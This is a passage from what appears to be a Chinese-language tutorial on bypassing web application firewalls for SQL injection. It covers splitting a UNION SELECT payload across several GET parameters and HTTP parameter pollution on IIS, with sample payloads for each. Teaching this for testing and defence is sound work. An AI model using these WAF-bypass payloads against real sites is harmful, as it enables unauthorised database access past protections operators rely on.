 ```sql
\x00     \n     \r     \     '     "     \x1a
```

（防御，将mysql设置为gbk即可）

## 多参数请求拆分

对于多个参数拼接到同一条SQL语句中的情况，可以将注入语句分割插入。

例如请求URL时，GET参数格式如下：

```bash
a=[input1]&b=[input2]
```

将GET的参数a和参数b拼接到SQL语句中，SQL语句如下所示。

```sql
and a=[input1] and b=[input2]
```

这时就可以将注入语句进行拆分，如下所示：

```sql
a=union/*&b=*/select 1,2,3,4
```

最终将参数a和参数b拼接，得到的SQL语句如下所示：

```sql
and a=union /*and b=*/select 1,2,3,4
```

## HTTP参数污染

HTTP参数污染是指当同一个参数出现多次，不同的中间件会解析为不同的结果。具体如下图所示：（以参数color=red&color=blue为例）。

![img](https://img-blog.csdnimg.cn/20190106130518949.jpg)

可见，IIS比较容易利用，可以直接分割带逗号的SQL语句。在其余的中间件中，如果WAF只检测了通参数名中的第一个或最后一个，并且中间件的特性正好取与WAF相反的参数，则可成功绕过。下面以IIS为例，一般的SQL注入语句如下所示：

```sql
Inject=union select 1,2,3,4
```

将SQL注入语句转换为以下格式。

```sql
Inject=union/*&inject=*/select/*&inject=*/1&inject=2&inject=3&inject=4
```

最终在IIS中读取的参数值将如下所示

```sql
Inject=union/*, */select/*, */1,2,3,4
```

## 生僻函数
